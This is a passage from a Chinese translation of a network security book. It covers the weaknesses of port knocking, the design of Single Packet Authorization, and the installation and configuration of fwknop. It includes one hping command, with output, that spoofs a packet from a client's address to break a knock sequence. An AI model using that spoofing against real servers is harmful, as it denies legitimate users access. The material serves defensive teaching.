一些端口敲门实现使用哈希函数的连续迭代（类似于 RFC 1760 中定义的 S/Key 认证）来阻止重放攻击，但这些方法要求客户端和服务器都存储一些状态信息。或者，我们可以在授予访问权限后，简单地更改共享的端口敲门序列或每个加密序列的解密密码，但这非常繁琐，且对于大量用户来说显然无法良好扩展。（我们将在第 226 页的“单包授权”中看到，有一种更优雅的方法来挫败重放攻击。）

### 最小数据传输速率

由于 TCP 和 UDP 报头中的端口字段宽度为 16 位，如果我们假设某种端口敲门（port-knocking）实现仅使用敲门序列中每个数据包的目的端口号，那么每个数据包只能传输两个字节的信息。此外，由于端口敲门不像 TCP 那样具有保证顺序交付和数据包重传机制（端口敲门是严格单向的），我们不能在不为连续数据包之间添加时间延迟的情况下，直接将完整的端口敲门序列发送到网络中。我们需要时间延迟来维持端口敲门序列的正确顺序，因为数据包可能会沿着不同的路由路径到达——其中某些路径可能比其他路径慢。

虽然不存在适用于所有网络的最佳时间延迟（事实上，如果端口敲门序列中的某个成员丢失，整个序列必须重新传输），但 0.5 秒的延迟是一个不错的起点。

因此，对于一个使用块大小为 128 位的对称加密算法（如本章前面提到的 Rijndael 算法的最小块大小）加密的端口敲门序列，其最小长度为 8 个数据包（128 位 / 每包 16 位 = 8 个数据包）。在每个数据包之间增加 0.5 秒的延迟意味着仅传输该序列就需要 4 秒钟，如果需要发送更多数据，每增加两个数据包就需多加 1 秒。正是这种冗长的传输时间，使得构建发送超过几个字节的端口敲门序列变得不切实际。

## 注意

由于端口敲门的数据传输能力极其有限，使用非对称加密算法来加密端口敲门序列是不可行的。即使仅使用 GnuPG 和具有 2048 位密钥的 Elgamal 算法加密 10 字节的信息，也会产生数百字节的加密信息。

## 敲门序列与端口扫描

正如第 3 章中所讨论的，端口扫描是指在短时间内对目标系统上的多个端口进行一系列连接尝试。从网络传输来看，端口敲门序列显然符合这个定义，尽管端口扫描与敲门序列的目标截然不同。问题在于，任何监控端口扫描的入侵检测系统（IDS）都无法区分这两类活动，并会对两者都发出警报。这些警报可能会让使用端口敲门来对远程服务进行身份验证的人引起不必要的关注。

## 注意

我知道有人（我们称他为 Bob）被要求辞职，因为公司安全策略禁止端口扫描。为了增强安全性，Bob 反复扫描自己的家庭系统以确保服务不可访问，但本地 IDS 捕获了这一活动。如果 Bob 使用的是端口敲门系统，IDS 同样会发出警报。当然，这是一个极端例子，但它强调了一点：没有理由让自己引起不必要的注意。

## 使用伪造数据包破坏敲门序列

由于端口敲门仅在数据包报头中编码信息（而不是依赖加密的应用层数据），攻击者很容易伪造数据包，使其看起来像是合法敲门序列的一部分。如果攻击者在端口敲门序列通过网络传输的过程中伪造并插入一个重复的数据包，敲门服务器无法分辨出这个额外的数据包并非来自端口敲门客户端的真实序列；结果就是，客户端发送的看起来不再是一个有效的敲门序列。这是一次针对敲门服务器的拒绝服务（DoS）攻击，因为攻击者可以强制服务器不向合法的端口敲门客户端开放访问权限。DoS 攻击可能是复杂的（例如，由僵尸机器网络协调向单个 IP 地址发送泛洪流量），但也可以极其简单地实施：使用单个数据包对端口敲门服务器进行 DoS 攻击极其容易——它可以从任何地方伪造！


为了说明这一点，假设端口敲门客户端和服务器约定使用以下端口敲门序列来打开 TCP 22 端口 30 秒（所有数据包均为 TCP SYN 包）：`1001`, `2004`, `5005`, `1001`, `1000`。现在，假设 IP 地址 `123.4.3.2` 开始向运行在 IP 地址 `231.1.2.3` 的敲门服务器发送该序列，每个数据包之间间隔 0.5 秒。如果攻击者能够监控网络中发送的该序列，那么使用以下 `hping` 命令将使端口敲门客户端看起来实际上发送了序列 `1001, 2004, 5005, 5005, 1001, 1000`（注意发送到 5005 端口的重复数据包）：

```
[root@attacker ~]# hping -S -p 5005 -c 1 -a 123.4.3.2 231.1.2.3
HPING 231.1.2.3 (eth0 231.1.2.3): S set, 40 headers + 0 data bytes

--- 231.1.2.3 hping statistic ---
1 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0 ms
```

因此，端口敲门服务器别无选择，只能将该敲门序列视为无效并丢弃，因为它看起来源自真实客户端的 IP 地址。因此，SSH 访问请求被拒绝，如图 12-2 所示。



**图 12-2.** 攻击者在端口敲门序列中伪造重复数据包，导致 DoS 攻击

***

[21] 13 Martin Krzywinski, "Port Knocking: Network Authentication Across Closed Ports," *SysAdmin* 12 (2003): 12–17.

[22] 14 "一组加密端口"意味着端口序列定义了一系列字节值，且该系列本身被用作加密算法的输入。结果是一组新的字节值，这些值对应新的端口号。这在随后的章节中会更加清晰。

[23] 15 如果端口敲门服务器或其依赖的任何库（如`libpcap`）存在漏洞，那么攻击者可能仍然能够攻破部署了端口敲门方案的系统。然而，寻找这样的系统并不像使用 Nmap 扫描那些"乐于"暴露自身存在的漏洞服务那样简单。

## 单包授权

端口敲门向我们展示了如何最大限度地利用数据包过滤器，针对所有尝试与受保护服务通信的行为强制执行"默认丢弃"（`default-drop`）立场。然而，如本章前面所示，端口敲门并非万能药，它在架构上存在显著限制。在本节中，我们将探讨一种端口敲门的替代方案，它在保留其优点的同时避免了其缺点。

*单包授权* (Single Packet Authorization, SPA) 将默认丢弃的数据包过滤器与被动监控的数据包嗅探器相结合，其方式与端口敲门的实现类似。然而，SPA 不在数据包报头字段中传输认证数据，而是利用载荷数据（`payload data`）来证明持有认证凭据。这之所以可行，是因为大多数网络的 MTU 大小在数百字节左右（例如，以太网 MTU 为 1514 字节，包括以太网报头），因此仅需一个数据包即可向 SPA 服务器传递身份信息。

由于端口敲门和 SPA 都采用了默认丢弃的数据包过滤器和被动监控设备的概念，图 12-3 的图示与图 12-1（端口敲门示意图）非常相似。但这一次，只需要一个数据包就能将认证信息传输给 SPA 服务器，因此从（伪造的）SPA 源地址到 `iptables` 系统只有一条线；在真正的 SSH 会话开始之前，不需要发送一系列数据包。我们很快就会看到，这是相对于端口敲门方案的一项重要创新。



**图 12-3.** 一个 SPA 网络

### 解决端口敲门的局限性

端口敲门协议带来的问题简要总结如下：

- 很难阻止能够监控端口敲门的攻击者发起的重放攻击

- 序列。

- 有效数据传输的缺乏限制了可用于加密序列数据的信息类型，甚至限制了加密系统的选择。

- 当端口敲门（`port-knock`）序列在网络上传输时，任何中间的 IDS（入侵检测系统）都可能会触发警报。

- 序列破解攻击（`Sequence-busting` attacks）非常容易实施，因为数据包头部很容易被复制和伪造。

通过在 SPA 中使用有效载荷（`payload`）数据，我们可以克服上述每一项缺陷：

- SPA 通过在每个 SPA 数据包中包含随机数据来解决重放问题。每个 SPA 数据包都根据定义明确的明文数据包格式构建（`fwknop` 使用的具体格式将在第 13 章中讨论）。该格式为随机数据预留了空间，并且一旦数据包构建完成，它就会被加密。包含随机数据可确保没有两个 SPA 数据包是完全相同的——即使它们向 SPA 服务器发送相同的访问请求。通过在服务器端存储每个成功解密 SPA 数据包的 MD5 校验和，我们可以重复发送相同的访问请求，且已知没有任何两个 SPA 数据包具有相同的 MD5 校验和。通过将任何新 SPA 数据包的 MD5 校验和与之前监测到的数据包进行比较，可以轻松挫败重放攻击。

- SPA 通过使用 IP 数据包的有效载荷部分来解决数据传输问题，类似于 TCP 封装应用层数据的方式。使用数据包有效载荷便于使用非对称加密算法进行加密，因为通过数据包有效载荷可以传输比任何端口敲门实现（仅使用数据包头部）更多的数据量。我们甚至可以在 SPA 之上构建一个命令通道（即在加密的 SPA 有效载荷中传输完整的命令）。我们将在第 13 章中看到，`fwknop` 同时支持访问请求和完整的命令通道实现。

- SPA 确保其网络通信不会被视为端口扫描，因为它仅使用单个数据包来传输身份验证信息。这样，IDS 就不会看到一系列针对一组端口的探测。由于 SPA 有效载荷是加密的，IDS 也无法解码 SPA 消息的内容；任何嗅探者看到的 SPA 数据包都只是一个不可理解的有效载荷数据块。

- 使用 SPA 可以挫败伪造攻击，因为攻击者无法简单地通过从 SPA 客户端系统向 SPA 服务器伪造数据包来破解 SPA 协议。（当然，任何检查网络数据包的系统在被垃圾数据包洪水攻击时都容易受到 DoS 攻击，但这并不是 SPA 协议本身的弱点。）

## SPA 的架构限制

尽管 SPA 在降低服务对潜在攻击者的暴露方面提供了安全性优势，但它也有其局限性。我们将探讨这些局限性，以便您能够就如何最佳地部署 SPA 做出明智的决定。端口敲门也存在这些局限性。

### 通过 NAT 地址的访问搭便车（Piggy-Backing）

数据包过滤器通常擅长过滤传输层及以下的流量，但在解析应用层方面则表现不佳。因此，SPA 守护进程在接受传入连接（在收到有效的 SPA 数据包之后）时应用的过滤标准，实际上只能包含源 IP 地址、请求的 Internet 协议和端口号。也就是说，当一个 SPA 数据包指示 SPA 服务器"为某个源 IP 地址开启 TCP 端口 22，持续 30 秒"时，SPA 服务器会配置数据包过滤器，以便在该 30 秒的时间窗口内，接受任何能够从该源 IP 地址连接到 TCP 端口 22 的数据包。如果 SPA 数据包中的 IP 地址是外部 NAT 地址（如果 SPA 客户端位于 NAT 设备之后，则必须如此），那么与合法客户端处于同一内部网络中的任何人，在允许的时间窗口内都将拥有相同的访问权限。<sup>[25]</sup>

### HTTP 和短时会话

当 SPA 守护进程在数据包过滤器规则集中添加一条临时规则以允许建立 TCP 连接时，合法客户端通常有充足的时间来完成 TCP 三次握手。然而，一个 SSH 会话的持续时间通常远长于将 TCP 连接推入已建立（`established`）状态所需的时间。

当规则从规则集中删除时会发生什么？通过使用连接跟踪机制（例如 Netfilter 提供的机制）在数据包被默认丢弃（`default-drop`）规则捕获之前接受属于已建立连接的数据包，即使允许会话建立的初始规则已被移除，连接仍可保持开启状态。

使用连接跟踪机制保持已建立的 TCP 连接开启，为长运行的 TCP 会话提供了一个优雅的解决方案，但对于短时连接（例如在 Web 上传输 HTTP 数据<sup>[26]</sup>或在邮件服务器之间传输 SMTP 数据）该怎么办？如果用户想要查看的每个 Web 链接都要生成一个新的 SPA 数据包，这将非常不便；而每个链接都通过单独的 TCP 连接传输，这使得问题更加复杂。总的来说，SPA 不太适合保护此类服务。

解决此问题的一种方案是简单地延长客户端 IP 地址的超时时间，例如使其在 1 小时内不需要新的 SPA 数据包。虽然这种扩展在一定程度上降低了 SPA 的有效性，但如果您的 Web 服务器运行的是关键应用程序且安全性是最重要的考虑因素，那么这样做可能是合理的。还可以在本地文件系统中缓存加密密码，使 SPA 客户端自动生成 SPA 数据包。但通常来说，将加密密码（这可能会削弱 GnuPG 私钥的安全性）放在文件系统中并不是个好主意。不过，将 SPA 客户端与尽可能多的客户端程序深度集成是一个有用的步骤。关于 OpenSSH 的集成示例，请参阅第 252 页的"`fwknop` OpenSSH Integration Patch"。

> <sup>[24]</sup> 这正是在尝试解决"默认允许（default permit）"问题，这是 Marcus Ranum 的《计算机安全六大最愚蠢想法》（见 http://www.ranum.com）列表中的第一项。*默认允许* 与默认丢弃相反，是 Internet 建立的基础原则：无限制地访问和共享信息。在计算机安全漏洞和入侵并不普遍的时代，这一原则运作良好，但那些日子早已一去不复返了。

> <sup>[25]</sup> NAT 地址背后的搭便车问题可以通过使用 Tor 网络中提供的 `MapAddress` 功能来缓解，但该功能会引入其他缺点，我们将在第 254 页的"SPA over Tor"中讨论。

> <sup>[26]</sup> 在某些情况下可以保持 Web 连接开启；请参阅 Apache 中的 `KeepAlive` 指令（见 http://apache.org/docs/1.3/mod/core.html#keepalive）。

## 通过模糊实现安全（Security Through Obscurity）？

端口敲门或 SPA 是否属于"通过模糊实现安全"的范畴？自从端口敲门首次向安全社区公布以来，这一直是一个激烈讨论的话题，双方都有强烈的观点。毫无疑问，这里的讨论不会得出最终结论；我的希望是提供一些思考的方向。<sup>[1,77]</sup>

当提出一种新的安全技术时，全球的研究人员都会对其架构进行审查。衡量安全技术的一个常见测试是它是否依赖于"通过模糊实现安全"；如果是，人们会尝试修复其架构。因此，确定 SPA 是否依赖于通过模糊实现安全至关重要。Bruce Schneier 在《应用密码学》（*Applied Cryptography*）的序言中写道：

> . . . 如果我写一封信，把它锁在保险箱里，把保险箱藏在纽约的某个地方，然后告诉你去读这封信，这不是安全，而是模糊。另一方面，如果我写一封信并把它锁在保险箱里，然后把保险箱连同保险箱的设计规范，以及数百个带有组合密码的相同保险箱一起交给你，以便你和世界上最顶尖的开锁匠研究其锁定机制——而你仍然无法打开保险箱并阅读信件——这才是安全。 . . .

任何端口敲门或 SPA 的开源实现都类似于向人们提供保险箱内部运作的所有细节。从加密算法到每件软件如何与数据包过滤器接口，一切都公开透明。当加密的 SPA 数据包或端口敲门序列在网络上传输时，唯一隐藏的是加密密钥本身，而强大的加密系统并不会因为加密密钥没有向全世界公布就陷入"通过模糊实现安全"的窘境。

现在，考虑一个比端口敲门或 SPA 更弱的安全系统。假设 OpenSSH 服务器守护进程的某个特定函数中发现了一个漏洞，而我为 OpenSSH 创建了一个假设的补丁，要求所有远程 SSH 客户端尝试访问该函数的请求必须提供一段加密数据。这段数据将使用一个众所周知且经过审查的算法进行加密，例如 Rijndael 或 GnuPG 使用的 Elgamal 算法。

有人可能会认为（我也这么认为），在这个假设的例子中，利用该漏洞进行破坏的可能性在加密算法安全的前提下被降至最低，因此，这种修复并不依赖于通过模糊实现安全。

端口敲门（至少在其加密形式中）和 SPA 提供了比这个人为设计的例子更好的安全特性，因为潜在的恶意客户端如果不能提供同样加密的数据片段，甚至无法与 SSH 服务器上的 TCP 栈建立 TCP 会话，更不用说与 SSH 守护进程通信了。因此，在端口敲门和 SPA 中，我们本质上拥有一个将上述人为设计示例通用化（`generalizing`）的机制。

使得 OpenSSH 守护程序中的*所有*函数在首先提供这段加密数据之前都无法访问。因此，端口敲击（`port knocking`）和 SPA 都不应被仅仅视为一种通过隐蔽实现安全（`security-through-obscurity`）的技术。

[77]⁹ 其中许多想法最早由 Sebastien Jeanquier 在其伦敦大学皇家霍洛威学院信息安全组的硕士论文《端口敲击与单包授权分析》（An Analysis of Port Knocking and Single Packet Authorization）中提出（参见 http://www.isg.rhul.ac.uk）。

## 总结思考

有些人更喜欢编写脚本，通过监视 `/var/log/auth.log`（具体文件取决于你的 `syslog` 守护程序配置）中报告的重复 `Authentication failure for root` 消息，来检测攻击者是否正试图通过 SSHD 暴力破解密码。然而，如果 OpenSSH（或其他 SSH 实现）中某个无需经过用户名/密码验证过程即可远程访问的函数被发现了新的缓冲区溢出漏洞，那么这种方法将几乎毫无用处。甚至有 Snort 规则可以对 SSH 连接进行明文 IDS 检测，以发现试图利用 Buctraq 编号 2347 中报告的 CRC32 溢出漏洞的企图（参见 Snort 规则 Ids 1324, 1326 和 1327）。凭借此类漏洞利用程序，攻击者无需尝试暴力破解密码，甚至不需要进入 SSH 通常要求的加密/解密协议契约中。一个更好的策略是，根本不要让任意 IP 地址连接到你的 SSH 守护程序。这就是 SPA 的用武之地，在 [第 13 章](chapter13) 中，我将向你展示如何部署 `fwknop`，以便通过在 SSH 守护程序之上将 SPA 与 `iptables` 分层部署来获得最大收益。在这种设置下，针对 SSHD 的零日漏洞利用和暴力破解密码尝试都将失效。

# 第 13 章. 介绍 FWKNOP

`FireWall KNock OPerator`（`fwknop`，参见 http://www.cipherdyne.org/fwknop）于 2004 年 6 月作为 GNU 通用公共许可证（GPL）下的开源项目发布。它是第一个将加密端口敲击与被动 OS 指纹识别相结合的端口敲击实现，使得仅允许 Linux 系统连接到你的 SSH 守护程序成为可能。（端口敲击客户端系统的 TCP 栈充当了额外的身份验证参数。）`fwknop` 的端口敲击组件基于 `iptables` 日志消息，并使用 `iptables` 作为默认丢弃（`default-drop`）的数据包过滤器。

2005 年 5 月，我为 `fwknop` 发布了单包授权（Single Packet Authorization）模式，使 `fwknop` 成为第一个公开可用的 SPA 软件。在撰写本文时，`fwknop-1.0` 是最新的可用版本，且 SPA 身份验证方法是默认设置，尽管 `fwknop` 仍然支持旧的端口敲击方法。MadHat 在 2005 年 7 月的 Black Hat Briefings 上创造了 *Single Packet Authorization*（单包授权）这个术语。我也在同一场会议上提交了一个类似的演示提案，但 *Single Packet Authorization* 读起来比我的标题要顺口得多，我的标题是 *Netfilter and Encrypted, Non-replayable, Spoofable, Single Packet Remote Administration*（Netfilter 以及加密的、不可重放的、可欺骗的单包远程管理）。同样值得注意的是，`tumbler` 项目（http://tumbler.sourceforge.net）实现的一种协议与 SPA 类似，因为它也仅使用单个数据包来传输身份验证和授权信息；然而，其有效载荷是经过哈希处理而非加密的，这导致了显著不同的架构。

## 注意

`fwknop` 真正支持的是针对希望访问默认丢弃数据包过滤器后服务的远程客户端的身份验证（`authentication`——验证通信实体的数字身份的过程）和授权（`authorization`——尝试确定实体是否有权限执行操作的过程）。这两个过程并不相同，且各自具有重要意义。

### fwknop 安装

安装 `fwknop` 首先从 http://www.cipherdyne.org/fwknop/download 下载最新的源码 tarball 或 RPM 包。通常情况下，验证 MD5 校验和是审慎之举；从安全角度来看，使用 GnuPG 检查 GnuPG 签名是否正确则更好。[78] 一旦确定下载的文件安全，即可进行安装。以下是安装 `fwknop` 1.0 版本源码 tarball 的方法：


进入`/usr/local/src`目录，下载并验证`fwknop-1.8.1.tar.bz2`源码包：

```
$ cd /usr/local/src
$ wget http://www.cipherdyne.org/fwknop/download/fwknop-1.8.1.tar.bz2
$ wget http://www.cipherdyne.org/fwknop/download/fwknop-1.8.1.tar.bz2.md5
$ md5sum -c fwknop-1.8.1.tar.bz2.md5
$ fwknop-1.8.1.tar.bz2: OK
$ wget http://www.cipherdyne.org/fwknop/download/fwknop-1.8.1.tar.bz2.asc
$ gpg --verify fwknop-1.8.1.tar.bz2.asc
gpg: Signature made Wed Jun 6 01:27:16 2007 EDT using DSA key ID A742839F
gpg: Good signature from "Michael Rash <mbr@cipherdyne.org>"
gpg: aka "Michael Rash <mbr@cipherdyne.org>"
$ tar xfj fwknop-1.8.1.tar.bz2
$ su -
$ Password:
# cd /usr/local/src/fwknop-1.8.1
# ./install.pl
```

与第 5 章中 `psad` 的安装一样，`install.pl` 脚本会提示你输入几项信息，例如授权模式（即，你想要使用 SPA 模式还是传统的端口敲击模式）以及你希望 `fwknop` 在哪个接口上嗅探数据包。

你可以在仅支持发送 SPA 数据包的系统上将其作为 SPA 客户端安装，也可以在完全支持发送 SPA 数据包以及从网络嗅探数据包的系统上安装（这是默认选项）。`fwknop` 的完整安装会在文件系统中创建若干文件和目录以支持正常运行，具体如下。

## /usr/bin/fwknop

这是客户端程序，负责接收用户的密码输入；构建符合 `fwknop` 数据包格式的 SPA 数据包；使用 Rijndael 对称加密算法加密数据包，或通过与 GnuPG 接口进行非对称加密；并通过 UDP、TCP 或 ICMP 发送加密的 SPA 数据包。默认情况下，`fwknop` 通过 UDP 端口 62201 发送 SPA 数据包，但可以通过命令行更改。

## /usr/sbin/fwknopd

这是主守护程序，负责嗅探和解密 SPA 数据包数据，防止重放攻击，解码 `fwknop` SPA 数据包格式，验证访问权限，并重新配置本地 `iptables` 策略，以授予对 SPA 数据包中请求的服务（s）的临时访问权限。

## /usr/bin/fwknop_serv

这是一个简单的 TCP 服务器，仅在 SPA 数据包通过 Tor 匿名网络（`http://tor.eff.org`）发送时使用。使用此服务器会导致双向通信，因此在技术上打破了 SPA 协议通常的单向特性；更多信息请参阅第 254 页的“通过 Tor 实现 SPA”。

## /usr/lib/fwknop

`fwknop` 使用的 Perl 模块安装在此目录下，以保持系统 Perl 库树的整洁。安装的模块包括 `Net::Pcap`、`Net::IPv4Addr`、`Net::RawIP`、`IPTables::Parse`、`IPTables::ChainMgr`、`Unix::Syslog`、`GnuPG::Interface`、`Crypt::CBC` 和 `Crypt::Rijndael`。`install.pl` 脚本会谨慎地仅安装系统 Perl 库树中尚不存在的 Perl 模块，以尽量减少磁盘占用。不过，你可以使用`--force-mod-install`命令行参数强制`install.pl`安装所有必需的 Perl 模块。在运行 `ipfw` 防火墙的系统上，或者在 Windows Cygwin 下的 `fwknop` 纯客户端安装中，绝不会安装 `IPTables::Parse` 和 `IPTables::ChainMgr` 模块。

## /etc/fwknop

这是 `fwknop` 守护程序配置文件的主要目录，例如 `fwknop.conf` 和 `access.conf`。该目录在 `fwknop` 守护程序以服务器模式运行时使用，在客户端模式下生成 SPA 数据包时不需要该目录。

## /usr/sbin/knopmd

这是一个用于从`/var/lib/fwknop/fwknopfifo`命名管道中解析 `iptables` 日志消息的守护程序。该守护程序仅在 `fwknop` 以传统端口敲击模式运行时使用。

## /usr/sbin/knoptm

这是一个守护程序，用于从 `iptables` 链中删除 `fwknop` 为合法 SPA 客户端添加的访问规则条目。这个守护程序是必要的，因为主 `knopmd` 守护程序是从活动接口进行嗅探的，且操作系统在接口接收到数据包之前不会调度它运行。如果 `fwknop` 从由独立嗅探进程或 `ulogd` 更新的 PCAP 文件中读取数据包数据，则不使用 `knoptm` 守护程序。在这种情况下，无论接口是否收到数据包，`knopmd` 都会被定期调度运行；因此，`fwknop` 可以自行强制执行 `iptables` 规则的超时。

## /usr/sbin/knopwatchd

这是一个监控守护程序，如果某个守护程序崩溃，它会将其重启。不过，`fwknop` 通常非常稳定，因此 `knopwatchd` 通常不需要做太多工作；它仅作为一种预防措施而存在，因为运行 SPA 意味着除非 `fwknopd` 也在运行，否则没有任何东西能够访问受保护的服务。

## /etc/init.d/fwknop

这是 `fwknop` 的初始化脚本。它允许用户以与大多数 Linux 发行版一致的方式启动 `fwknop`——通过执行`/etc/init.d/fwknop start`。仅在以服务器模式启动 `fwknop` 的情况下，使用 init 脚本才有意义。

> [78] 正如第 5 章所述，我的 GnuPG 密钥可通过 `http://www.cipherdyne.org/public_key` 获取。为了验证 `http://www.cipherdyne.org` 上每个软件分发文件的 GnuPG 签名，必须使用 `gpg --import` 导入此密钥。

# fwknop 配置

在服务器模式下，`fwknop` 参考两个主要的配置文件 `fwknop.conf` 和 `access.conf` 来获取配置指令。与 `psad` 配置文件（见第 5 章）类似，这些文件中的每一行都遵循简单的键值对约定来定义配置变量。通常，注释行以井号 (`#`) 开始。我将在接下来的章节中介绍这些文件中一些较重要的配置变量。

## /etc/fwknop/fwknop.conf

`fwknop.conf` 文件定义了关键的配置变量，例如身份验证模式、防火墙类型、用于嗅探数据包的接口、是否应以混杂模式嗅探数据包（即 `fwknop` 是否处理并非发往本地接口 MAC 地址的以太网帧），以及发送警报的电子邮件地址。

### AUTH_MODE

`AUTH_MODE` 变量告诉 `fwknop` 守护进程如何收集数据包数据。它支持多种收集模式，包括：通过 `Net::Pcap` Perl 模块从实时接口嗅探数据包；从由 `ulogd`（见 `http://www.netfilter.org`）写入文件系统的 PCAP 格式数据包文件中读取；使用独立的以太网嗅探器（如 `tcpdump`）；或者从`/var/log/fwknop/fwdata`文件中解析 `iptables` 日志消息。`AUTH_MODE` 变量的可能值为 `PCAP`、`FILE_PCAP`、`ULOG_PCAP` 和 `KNOCK`；默认值为 `PCAP`。

```
AUTH_MODE PCAP;
```

### PCAP_INTF

`PCAP_INTF` 变量定义了 `fwknop` 守护进程用于监控数据包的实时接口。仅在 `AUTH_MODE` 设置为 `PCAP` 时才使用此项；默认设置为 `eth0` 接口。

```
PCAP_INTF eth0;
```

### PCAP_FILTER

实时接口可能会传输或接收大量与 SPA 流量完全无关的数据包，无需强迫 `fwknop` 守护进程去处理它们。`PCAP_FILTER` 变量允许您根据网络层地址或传输层端口号等标准，限制 `libpcap` 将传递给 `fwknop` 的数据包类型。由于默认情况下 `fwknop` 通过 UDP 端口 62201 传输 SPA 数据包，因此该变量设置如下（可以通过修改此项来通过不同的端口和/或协议获取 SPA 数据包）。

```
PCAP_FILTER udp port 62201;
```

### ENABLE_PCAP_PROMISC

当设置为 `y` 时，此变量指示 `fwknop` 守护进程监控所有经过实时数据包捕获接口的以太网帧（即接口运行在*混杂模式*下）。当 `AUTH_MODE` 设置为 `PCAP` 时，此功能默认启用；但是，如果 `fwknop` 守护进程进行嗅探的接口处于活动状态且已分配 IP 地址——这意味着 SPA 数据包可以直接发送到该接口——那么可以通过以下方式禁用此功能：

```
ENABLE_PCAP_PROMISC N;
```

### FIREWALL_TYPE

`FIREWALL_TYPE` 变量告诉 `fwknopd` 在收到有效的 SPA 数据包后负责重新配置的防火墙类型。支持的值为 `iptables`（默认值），以及适用于 FreeBSD 和 Mac OS X 系统的 `ipfw`。

```
FIREWALL_TYPE iptables;
```

### PCAP_PKT_FILE

如果 `AUTH_MODE` 设置为 `FILE_PCAP` 或 `ULOG_PCAP`，则 `fwknop` 守护进程从文件系统中的 PCAP 格式文件中获取数据包数据。该文件的路径由 `PCAP_PKT_FILE` 变量定义，其默认设置如下：

```
PCAP_PKT_FILE /var/log/sniff.pcap;
```

### IPT_AUTO_CHAIN1

`fwknop` 使用 `IPTables::ChainMgr` Perl 模块为合法的 SPA 客户端添加和删除 `ACCEPT` 规则。`psad` 也使用 `IPTables::ChainMgr`，但 `psad` 不是添加 `ACCEPT` 规则，而是针对发送恶意流量的 IP 地址添加 `DROP` 规则。`IPT_AUTO_CHAIN1` 变量的默认配置是将 `ACCEPT` 规则添加到自定义 `iptables` 链 `FWKNOP_INPUT` 中，并从内置的 `INPUT` 链将数据包跳转到此链。[70]

```
IPT_AUTO_CHAIN1 ACCEPT, src, filter, INPUT, 1, FWKNOP_INPUT, 1;
```

### ENABLE_MD5_PERSISTENCE

SPA 协议最重要的特性之一是能够检测并忽略重放攻击。`ENABLE_MD5_PERSISTENCE` 变量控制 `fwknop` 守护进程是否将所有成功解密的 SPA 数据包的 MD5 校验和写入磁盘。这使得 `fwknop` 能够在 `fwknop` 重启甚至系统重启后检测到重放攻击。此功能默认启用，但如果您想验证重放检测是否正常工作（需要通过网络向 SPA 服务器发送一个重复的 SPA 数据包），则可以将其禁用。

```
ENABLE_MD5_PERSISTENCE Y;
```

### MAX_SPA_PACKET_AGE

`MAX_SPA_PACKET_AGE` 变量定义了 `fwknop` 服务器允许接收 SPA 数据包的最大有效期（以秒为单位）。默认值为两分钟。仅在启用 `ENABLE_SPA_PACKET_AGING` 时才使用此变量。

```
MAX_SPA_PACKET_AGE 120;
```

### ENABLE_SPA_PACKET_AGING

默认情况下，`fwknop` 守护进程要求从 `fwknop` 客户端发送的 SPA 数据包时间间隔必须小于 120 秒（即两分钟，由上述 `MAX_SPA_PACKET_AGE` 变量定义）。`fwknop` 客户端在每个 SPA 数据包中包含一个时间戳（见第 241 页的“[fwknop SPA 数据包格式](#)”），`fwknop` 服务器利用该时间戳来确定所有 SPA 数据包的有效期。此功能要求 `fwknop` 客户端和服务器之间进行宽松的时间同步，而强大的网络时间协议 (NTP) 使其易于实现。

如果禁用 `ENABLE_SPA_PACKET_AGING`，处于 SPA 数据包传输路径上的攻击者可能会拦截该数据包，从而防止 `fwknop` 服务器接收它并计算其 MD5 校验和。随后，攻击者可以将原始 SPA 数据包发送到目的地，而 `fwknop` 服务器将会接受它。此外，如果使用了 `fwknop` `-s` 命令行参数来生成原始 SPA 数据包，`fwknop` 将接受来自任何源 IP 地址的 SPA 数据包（见下文的 `REQUIRE_SOURCE_ADDRESS` 变量），攻击者将通过 `iptables` 策略获得访问权限。因此，强烈建议您保持此功能开启。

```
ENABLE_SPA_PACKET_AGING Y;
```

### REQUIRE_SOURCE_ADDRESS

`REQUIRE_SOURCE_ADDRESS` 变量要求 `fwknop` 服务器验证所有 SPA 数据包的加密负载中是否包含要通过 `iptables` 授予访问权限的 IP 地址。启用此功能后，在 `fwknop` 客户端命令行中使用 `-s` 参数时放入 SPA 数据包中的 `0.0.0.0` 通配符 IP 地址将不被接受。

```
REQUIRE_SOURCE_ADDRESS Y;
```

### EMAIL_ADDRESSES

`fwknop` 服务器会在多种情况下发送电子邮件警报，例如：当 SPA 数据包被接受并授予服务访问权限时、当访问权限被移除时，以及当重放攻击被挫败时。支持使用逗号分隔的列表来配置多个电子邮件地址，如下所示：

```
EMAIL_ADDRESSES root@localhost, mbr@cipherdyne.org;
```

### GPG_DEFAULT_HOME_DIR

